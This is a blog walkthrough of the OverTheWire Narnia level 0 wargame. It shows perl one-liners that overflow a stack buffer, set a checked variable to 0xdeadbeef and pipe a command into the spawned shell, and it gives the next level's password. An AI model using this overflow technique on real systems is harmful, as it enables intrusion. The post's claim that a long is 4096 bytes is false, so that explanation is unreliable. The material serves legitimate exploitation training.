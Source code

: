 ```yaml
---
layout: post
title:  "Narnia Level 0"
date:   2015-09-28 22:04
categories: narnia wargame pwnable overthewire
author: Leander
---
```

This is a solution guide to the Narnia0 Level at [overthewire](http://overthewire.org/wargames/narnia/). This write-up was created on 19 November 2014.

First connect to the lab
<ul><li>ssh narnia0@narnia.labs.overthewire.org</li>
<li>Enter the following as the password narnia0</li></ul>

Change directories to the narnia games folder <code>cd /narnia</code>. First let's examine how we get the password for the next level <code>less /README.txt</code>. This machine holds several wargames. For a generic wargame named "somegame", the usernames are: mygame0, mygame1, ... and most levels are stored in /mygame/. Passwords for each level are stored in /etc/mygame_pass/

So let's try reading the password without any additional work, <code> cat /etc/narnia_pass/narnia1</code>

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@melinda:/narnia$ </code></pre></figure>

Well that didn't work, so lets check out the challenge next. 
Notice all the different files and find the level 0 binary.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@melinda:/narnia$</code></pre></figure>

I start by checking what the file does

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAA %p
buf: AAAA
val: 0x41414141
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>

Well that's interesting that it did something weird with %p. Now let's check the source code, type out <code>cat narnia0.c</code>

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>

  int main(){
  	long val=0x41414141;
  	char buf[20];   // notice the buffer here is 20, which means there may be a potential for a buffer overflow

  	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
  	printf("Here is your chance: ");
  	scanf("%24s",&buf);   //notice the buffer read in from the command prompt above is a 24 byte string
  	                      //this means that we have a 4 byte overflow

  	printf("buf: %s\n",buf);        //here it prints the 20 bytes from char buf
  	printf("val: 0x%08x\n",val);    //the 4 bytes that overflow fall into val 
  	                                //because it was initialized on the stack below it

  	if(val==0xdeadbeef)             //a successful overflow input will give me a shell!
  		system("/bin/sh");            //system passes a command to the shell and in
  		                              //this case attempts to open a shell
  	else {
  		printf("WAY OFF!!!!\n");
  		exit(1);
  	}

  	return 0;
  }
{% endhighlight %}
  
From inspecting the code we can see that the stack looks something like this:
<figure class="highlight"><pre><code class="language-text" data-lang="text">
||-------------------------||
||                         ||
||                         ||
|| char buff ( 20 bytes )  ||       
||                         ||
||                         ||
||-------------------------||
||   long val ( 4 bytes )  ||
||-------------------------||
</code></pre></figure>
  
Alright now that I know this let's try some crafted input.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that's great, we've just confirmed that we can affect what goes into long val.
It's confirmed that i can overwrite the buffer. Apaprently, I was correct in how the
stack looked and inside it would look similar to this (except in hexadecimal 
representation).
<figure class="highlight"><pre><code class="language-text" data-lang="text">
        ||--------------||
        ||  0x41414141  ||    
        ||  0x41414141  ||
        ||  0x41414141  ||     
        ||  0x41414141  ||
        ||  0x41414141  ||
        ||--------------||
        ||  0x42424242  ||     
        ||--------------||
</code></pre></figure>

Note that 0x41 = A and 0x42 = B, char buff is ( 20 bytes ), and long val is ( 4 bytes ). Now let's try it with deadbeef in there.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "deadbeef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAdead
val: 0x64616564
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that didn't work, because scanf is accepting string characters. So now we need a way to get the proper "characters"
in so that it will display 0xdeadbeef. Remember that you also have to craft the input to be little endian (I think of this
as the input has to be spelled backwards).
-> perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that's weird I didn't get a shell, but the WAY OFF!!!! didn't show. At this point I realized that the /bin/sh needed an input to follow the system command. So then I added more input onto the end.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde" . "cat /etc/narnia0_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
narnia0@melinda:/narnia$</code></pre></figure>

Still no solution. Now I want to create a situation where the program does something unintentional.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"x1100 . "cat /etc/narnia0_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
/bin/sh: 1: ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?cat: Filename too long
narnia0@melinda:/narnia$</code></pre></figure>

<figure class="highlight"><pre><code class="language-text" data-lang="text">
||-------------------------||
||                         ||
||                         ||   
|| char buff ( 20 bytes )  ||   
||                         ||    
||                         ||   
||-------------------------||  
||  buff overflow (4 bytes)||     
          .......                
|| long val ( 4092 bytes ) ||         
          .......
||                         ||
||-------------------------||
</code></pre></figure>

So I discovered I had the stack improperly setup because a long is actually 4096 bytes in size. This was demonstrated by the fact /bin/sh received the input that overflowed from the crafted string that I sent. Well that was useful, now lets whittle it down so that the /bin/sh command takes the correct input. All I should have to do now is remove the extra bytes.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde" . "B"x4072 . "cat /etc/narnia_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
efeidiedae
narnia0@melinda:/narnia$</code></pre></figure>
  
BINGO! We have a solution. The password file for narnia1 is <code>efeidiedae</code>.
